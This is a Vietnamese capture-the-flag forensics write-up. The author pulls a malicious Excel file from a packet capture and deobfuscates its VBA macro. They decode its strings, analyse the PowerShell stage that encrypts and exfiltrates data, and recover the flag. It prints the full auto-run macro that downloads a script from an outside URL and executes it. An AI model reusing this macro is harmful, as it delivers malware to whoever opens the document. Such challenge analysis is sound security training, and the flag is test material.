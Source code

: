![Screenshot (4452)](https://github.com/NVex0/uWU/assets/113530029/fb8ee111-d71e-48de-9d56-2cae5b023c32)

#### Solve:

Vẫn là Hoà và tài liệu độc hại của anh ấy. Đề cho ta 1 file pcap, dựa theo mô tả của đề thì có vẻ đây là capture của traffic khi thầy giáo nhận file độc từ Hoà. Mình sẽ extract tài liệu đó trên HTTP object list:

![Screenshot (4453)](https://github.com/NVex0/uWU/assets/113530029/20002710-b291-49fc-bccd-5a397f6e3ba2)

 `olevba` đầu tiên thôi :v: :

![image](https://github.com/NVex0/uWU/assets/113530029/34ed6a24-738b-486d-9a8d-bbb22ccb5964)

Ta thấy đoạn malicious code này bị obfuscate khá đau mắt, tuy nhiên để ý thì có vẻ như nó chỉ bị obfu bằng xài mấy tên biến non-ascii kì cục :v 

Sử dụng cyberchef, mình sửa chay từng biến 1 :D và nhìn ra mặt code:

```
Function func1(var17)
var12 = " ?!@#$%^&*()_+|0123456789abcdefghijklmnopqrstuvwxyz.,-~ABCDEFGHIJKLMNOPQRSTUVWXYZ¿¡²³ÀÁÂÃÄÅÒÓÔÕÖÙÛÜàáâãäåØ¶§Ú¥"
var16 = "ãXL1lYU~Ùä,Ca²ZfÃ@dO-cq³áÕsÄJV9AQnvbj0Å7WI!RBg§Ho?K_F3.Óp¥ÖePâzk¶ÛNØ%G mÜ^M&+¡#4)uÀrt8(ÒSw|T*Â$EåyhiÚx65Dà¿2ÁÔ"
For y = 1 To Len(var17)
var4 = InStr(var12, Mid(var17, y, 1))
If var4 > 0 Then
var11 = Mid(var16, var4, 1)
var13 = var13 + var11
Else
var13 = var13 + Mid(var17, y, 1)
End If
Next
func1 = var13
For var26 = 1 To Len(var23)
var23 = var26
Next
For var30 = 2 To Len(var24)
var24 = 2
Next
For var33 = 3 To Len(var28)
var28 = var33
Next
For var18 = 4 To Len(var22)
var22 = 2
Next
End Function
Sub Workbook_Open()
Dim var31 As Object
Dim var21 As String
Dim var29 As String
Dim var19 As String
Dim var14 As Integer
var14 = Chr(50) + Chr(48) + Chr(48)
Set var31 = CreateObject("WScript.Shell")
var21 = var31.SpecialFolders("AppData")
Dim var9
Dim var6
Dim var3
Dim var26 As Long
Dim var30 As String
Dim var25 As Long
Dim var28 As String
Dim var33 As Long
Dim var18 As String
Dim var32 As String
Dim var24 As Long
Dim var10
Dim var15
Dim a0 As Integer
Dim var2
Dim var7
a0 = 1
Range("A1").Value = func1("4BEiàiuP3x6¿QEi³")
Dim var8 As String
var1 = "$x¿PÜ_jEPkEEiPÜ_6IE3P_i3PÛx¿²PàQBx²³_i³P3x6¿QEi³bPÜ_jEPkEEiPb³x#Eir" & vbCrLf & "ÒxP²E³²àEjEP³ÜEbEP3_³_(PÛx¿P_²EP²E7¿à²E3P³xP³²_ib0E²P@mmIP³xP³ÜEP0x##xÄàiuPk_iIP_66x¿i³Pi¿QkE²:P" & vbCrLf & "@m@m@mo@@§mmm" & vbCrLf & "g66x¿i³PÜx#3E²:PLu¿ÛEiPÒÜ_iÜP!xiu" & vbCrLf & "t_iI:PTtPt_iI"
var8 = func1(var1)
MsgBox var8, vbInformation, func1("pEP3EEB#ÛP²Eu²E³P³xPài0x²QPÛx¿")
Dim var20 As Date
Dim var27 As Date
var20 = Date
var27 = DateSerial(2023, 6, 6)
If var20 < var27 Then
Set var2 = CreateObject("microsoft.xmlhttp")
Set var15 = CreateObject("Shell.Application")
var10 = var21 + func1("\k¿i6Ü_~Bb@")
var2.Open "get", func1("Ü³³Bb://uàb³~uà³Ü¿k¿bE²6xi³Ei³~6xQ/k7¿_iQ_i/fÀ3_o-3Yf0_E6m6kk3_km§3Y03ÀY_3__/²_Ä/À3EÀkfmfÀ@Eããoãä§k@_@ã0ä6_E3-ãY036-@@koo/_Àmb6m@§~Bb@"), False
var2.send
var6 = var2.responseBody
If var2.Status = 200 Then
Set var9 = CreateObject("adodb.stream")
var9.Open
var9.Type = a0
var9.Write var6
var9.SaveToFile var10, a0 + a0
var9.Close
End If
var15.Open (var10)
Else
MsgBox func1("åxi'³P³²ÛP³xP²¿iPQEPk²x")
End If
End Sub
```

Đầu tiên với hàm `func1`, ta thấy nó nhận vào 1 chuỗi, trả về kí tự index thứ `var4` trên `var16`. `var4` là kết quả từ việc match xem kí tự lần đầu của chuỗi xuất hiện trong `var12` là ở đâu. Lặp liên tục trên len của chuỗi đầu vào, hàm trả về cho ta 1 string.

Func1 được gọi rất nhiều lần, mình viết code sau và decode từng đoạn gọi tới func1:

```
var2 = " ?!@#$%^&*()_+|0123456789abcdefghijklmnopqrstuvwxyz.,-~ABCDEFGHIJKLMNOPQRSTUVWXYZ¿¡²³ÀÁÂÃÄÅÒÓÔÕÖÙÛÜàáâãäåØ¶§Ú¥"
var3 = "ãXL1lYU~Ùä,Ca²ZfÃ@dO-cq³áÕsÄJV9AQnvbj0Å7WI!RBg§Ho?K_F3.Óp¥ÖePâzk¶ÛNØ%G mÜ^M&+¡#4)uÀrt8(ÒSw|T*Â$EåyhiÚx65Dà¿2ÁÔ"
v1 = input()

out = ""
for i in range(len(v1)):
    if v1[i] == ':':
        out += ':'
    elif v1[i] =='/':
        out += '/'
    for j in range(len(var2)):
        if var2[j] == v1[i]:
            out += var3[j]
print(out)
```
Lần lượt với chuỗi đầu vào func, ta được các output như sau:

`Opening document`

`We deeply regret to inform you`

`buncha.ps1`

`https://gist.githubusercontent.com/bquanman/98da73d49faec0cbbdab02d4fd84adaa/raw/8de8b90981e667652b1a16f5caed364fdc311b77/a80sc012.ps1`

`Dont try to run me bro`

Chung quy lại là code này thực thi việc tải xuống file ps1 kia và lưu vào Appdata. Vào đường dẫn mà file được tải xuống:

![image](https://github.com/NVex0/uWU/assets/113530029/d4462edb-e086-40ed-9fde-5a9b91215a16)

Vẫn là base64 và deflate compress :v, ta làm tương tự như đoạn đầu thôi, và được 1 obfuscated code khác. Mình sử dụng `PowerDecode` để deobfuscate. 

Đoạn code sau khi deob nhìn khá rõ ràng. Cụ thể code này sử dụng AES-CBC Zero Padding với key có sẵn trong code. IV lấy 16 bytes nối với data sau khi encrypt. 
Sau đó là tạo stream để POST data lên kết nối được thiết lập trước. 

Vậy nên với file pcap của đề, mình sẽ tiến hành decrypt data mà Hoà lấy được từ máy thầy. Đầu tiên mình sort theo HTTP POST:

![image](https://github.com/NVex0/uWU/assets/113530029/027fd81a-9998-42ca-8b0e-884402d47b91)

Sau đó decrypt data bên client gửi bằng cách cắt đi 16 bytes đầu làm IV, key trong code và phần còn lại là encrypted data. Mình thử decrypt từng cái 1 và cuối cùng có được thứ mình cần ở stream POST lượng data lớn nhất. 

Phần data ta phải xử lý qua bằng URL decode trước. Sau đó mình decrypt với Cyberchef:

![image](https://github.com/NVex0/uWU/assets/113530029/d604601b-c12e-4fa8-b734-0e33181b8bc2)

Để ý thì kia là header của PNG, decode và save về, ta được 1 bức QR:

![image](https://github.com/NVex0/uWU/assets/113530029/0449648b-a836-47b3-93db-c23d9185768a)

Scan và ta được Flag:

Flag: `CHH{D0n't_w0rRy_n0_st@r_wh3rE}`
